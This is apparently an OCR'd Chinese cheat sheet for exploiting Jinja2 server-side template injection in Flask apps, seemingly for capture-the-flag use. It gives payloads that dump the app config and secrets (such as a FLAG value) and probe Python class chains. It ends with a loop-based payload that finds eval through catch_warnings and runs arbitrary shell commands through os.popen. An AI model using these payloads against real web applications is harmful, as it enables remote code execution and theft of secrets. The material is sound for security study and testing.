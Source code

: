 ^
## **模板中可以使用的属性**
```
返回信息则存在jinjia2
{{self.__dict__}}
{{config}}


使用内置函数查看全局变量字典
{{url_for.__globals__}}
若里面有current_app，查看当前APP配置，里面可能有flag变量值。如：app.config['FLAG'] = os.environ.pop('FLAG')
{{url_for.__globals__['current_app'].config}}
也可
{{get_flashed_messages.__globals__['current_app'].config}}


__class__ 返回类型所属的对象。
__mro__返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析，这里也就是class返回的对象所属的类。
__base__返回该对象所继承的基类，这里也就是class返回的对象所属的类。
__subclasses__返回基类中的所有子类，每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表。

__globals__对包含函数全局变量的字典的引用，
里面包括get_flashed_messages()返回在Flask中通过 flash() 传入的闪现信息列表。
把字符串对象表示的消息加入到一个消息队列中，
然后通过调用get_flashed_messages() 方法取出
(闪现信息只能取出一次，取出后闪现信息会被清空)。

1. 测试：
/test?name={{''.__class__}}
回显：
 your input <class 'str'>

2. 测试：
/test?name={{''.__class__.__base__}}
回显:
your input <class 'object'>

3. 测试:
/test?name={{''.__class__.__base__.__subclasses__()}}
回显:
your input object基类的子类
即我们可以利用的类。
```

^
## **利用**
自动化寻找利用类直接RCE
```
{% for c in [].__class__.__base__.__subclasses__() %} 
  {% if c.__name__ == 'catch_warnings' %} 
    {% for b in c.__init__.__globals__.values() %} 
      {% if b.__class__ == {}.__class__ %}
        {% if 'eval' in b.keys() %} 
          {{ b['eval']('__import__("os").popen("ls").read()') }}    //这里的ls就是需要的执行命令
        {% endif %} 
      {% endif %} 
     {% endfor %} 
  {% endif %}
{% endfor %}



```